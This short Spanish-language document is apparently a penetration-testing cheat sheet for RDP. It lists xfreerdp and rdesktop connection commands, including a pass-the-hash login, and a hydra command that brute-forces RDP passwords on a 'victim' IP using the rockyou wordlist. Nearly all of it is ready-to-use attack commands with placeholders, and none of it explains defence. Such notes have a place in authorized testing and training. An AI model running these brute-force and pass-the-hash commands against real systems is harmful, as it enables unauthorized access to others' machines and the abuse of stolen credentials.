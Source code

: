## Conectarnos al cliente

```
xfreerdp [/d:dominio] /u:<usuario> /p:<password> /v:<IP>
xfreerdp [/d:dominio] /u:<usuario> /pth:<hash> /v:<IP> # con hash
rdesktop -u <username> <IP>
rdesktop -d <domain> -u <username> -p <password> <IP>
```

## Fuerza bruta

```
hydra -l <usuario> -P /usr/share/wordlists/rockyou.txt rdp://<ip victima>
```